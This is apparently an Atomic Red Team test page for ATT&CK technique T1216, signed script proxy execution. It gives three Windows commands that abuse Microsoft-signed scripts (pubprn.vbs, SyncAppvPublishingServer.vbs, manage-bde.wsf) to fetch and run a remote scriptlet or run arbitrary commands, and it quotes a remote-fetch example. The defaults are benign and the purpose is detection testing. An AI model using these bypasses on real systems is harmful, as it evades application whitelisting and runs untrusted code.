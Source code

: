 # T1216 - Signed Script Proxy Execution
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1216)
<blockquote>Scripts signed with trusted certificates can be used to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application whitelisting solutions that do not account for use of these scripts.

PubPrn.vbs is signed by Microsoft and can be used to proxy execution from a remote site. (Citation: Enigma0x3 PubPrn Bypass) Example command: <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>

There are several other signed scripts that may be used in a similar manner. (Citation: GitHub Ultimate AppLocker Bypass List)</blockquote>

## Atomic Tests

- [Atomic Test #1 - PubPrn.vbs Signed Script Bypass](#atomic-test-1---pubprnvbs-signed-script-bypass)

- [Atomic Test #2 - SyncAppvPublishingServe Signed Script PowerShell Command Execution](#atomic-test-2---syncappvpublishingserve-signed-script-powershell-command-execution)

- [Atomic Test #3 - manage-bde.wsf Signed Script Command Execution](#atomic-test-3---manage-bdewsf-signed-script-command-execution)


<br/>

## Atomic Test #1 - PubPrn.vbs Signed Script Bypass
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_payload | A remote payload to execute using PubPrn.vbs. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216/src/T1216.sct|


#### Attack Commands: Run it with `command_prompt`! 
```
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```






<br/>
<br/>

## Atomic Test #2 - SyncAppvPublishingServe Signed Script PowerShell Command Execution
Executes the signed SyncAppvPublishingServe script with options to execute an arbitrary PowerShell command.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A PowerShell command to execute. | string | Start-Process calc|


#### Attack Commands: Run it with `command_prompt`! 
```
C:\windows\system32\SyncAppvPublishingServe.vbs ΓÇ£\n;#{command_to_execute}ΓÇ¥
```






<br/>
<br/>

## Atomic Test #3 - manage-bde.wsf Signed Script Command Execution
Executes the signed manage-bde.wsf script with options to execute an arbitrary command.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A command to execute. | Path | C:\Windows\System32\calc.exe|


#### Attack Commands: Run it with `command_prompt`! 
```
set comspec=#{command_to_execute}
cscript manage-bde.wsf
```

#### Cleanup Commands:
```
set comspec=C:\Windows\System32\cmd.exe
```





<br/>
